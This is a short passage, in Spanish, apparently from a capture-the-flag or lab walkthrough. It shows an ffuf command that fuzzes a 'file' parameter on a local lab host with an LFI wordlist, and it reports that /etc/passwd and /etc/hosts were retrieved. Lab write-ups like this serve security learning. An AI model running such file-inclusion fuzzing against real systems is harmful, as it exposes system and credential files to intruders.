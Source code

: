 ![ffuf-get](../../../assets/images/zerotrace/etcpasswd.png)

Utilizamos una [wordlist para LFI](https://raw.githubusercontent.com/DragonJAR/Security-Wordlist/refs/heads/main/LFI-WordList-Linux) de DragonJAR y solo podemos obtener los archivos `/etc/passwd` y `/etc/hosts`.

```bash
ffuf -u "http://192.168.1.187/.admin/tool.php?file=FUZZ" -w ./LFI-WordList-Linux -fs 0
```
